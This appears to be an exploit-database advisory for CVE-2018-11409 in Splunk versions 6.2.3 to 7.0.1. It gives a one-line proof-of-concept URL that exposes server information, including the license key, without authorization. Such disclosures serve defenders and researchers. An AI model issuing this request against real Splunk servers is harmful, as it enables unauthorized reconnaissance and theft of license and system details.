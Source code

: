 # splunk
# Exploit Title: [information disclosure]
# Google Dork: [n/r]
# Date: [23/05/2018]
# Exploit Author: [KoF2002]
# Vendor Homepage: [https://www.splunk.com/]
# Software Link: []
# Version: [6.2.3 - 7.01 MAYBE ALL VERSION AFFECTED] 
# Tested on: [linux os]
# CVE : [CVE-2018-11409]
# [Attack Type] [Remote]

------------------------------------------------------

 Splunk through 6.2.3 7.0.1 allows information disclosure by appending

/__raw/services/server/info/server-info?output_mode=json to a query,

as demonstrated by discovering a license key and other information.


PoC :

https://127.0.0.1:8000/en-US/splunkd/__raw/services/server/info/server-info?output_mode=json

--------------------------------------

Greats : Cold z3ro , ihab pal and all HTLovers "We Are Back"

https://www.0x30.cc/core/
